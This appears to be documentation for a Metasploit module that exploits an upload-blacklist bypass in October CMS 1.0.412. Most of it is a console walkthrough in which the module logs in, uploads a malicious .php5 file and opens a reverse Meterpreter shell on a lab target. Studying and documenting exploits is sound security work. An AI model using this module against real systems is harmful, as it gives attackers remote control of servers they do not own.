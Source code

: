 
## Description
An authenticated user with permission to upload and manage media contents can
upload various files on the server. The application prevents the user from
uploading PHP code by checking the file extension. It uses blacklist based
approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
Definitions.php:blockedExtensions().

## Vulnerable Software
https://www.exploit-db.com/apps/4ff8a9688f31b7338020d0bc85da13fc-october-1.0.412.tar.gz

## Author
Anti Räis (Discovery)
Touhid M.Shaikh (Metasploit Module)

## References
https://www.exploit-db.com/exploits/41936

## Tested on
This module was tested on October CMS version v1.0.412 on Ubuntu.

## Verification
msf5 > use exploit/multi/http/october_upload_bypass_exec
msf5 exploit(multi/http/october_upload_bypass_exec) > set rhosts 10.10.10.16
rhosts => 10.10.10.16
msf5 exploit(multi/http/october_upload_bypass_exec) > setg verbose true
verbose => true
msf5 exploit(multi/http/october_upload_bypass_exec) > set lhost 10.10.14.8
lhost => 10.10.14.8
msf5 exploit(multi/http/october_upload_bypass_exec) > run 

[*] Started reverse TCP handler on 10.10.14.8:4444 
[+] Token for login : 3ySsc8d8VNMm2V8x3Ns4cay05bwhRxnoIkQjRnBP
[+] Session Key for login : uVNSZ2YRUm39cf8kqJcWV0qr9xhqq9krCYHeVI6m
[*] Trying to Login ......
[+] Authentication successful: admin:admin
[*] Trying to upload malicious WLMVDKmVpCX.php5 file ....
[*] Sending stage (38247 bytes) to 10.10.10.16
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.16:54124) at 2019-09-03 12:19:20 +0530

meterpreter > sysinfo 
Computer    : october
OS          : Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686
Meterpreter : php/linux
meterpreter > 
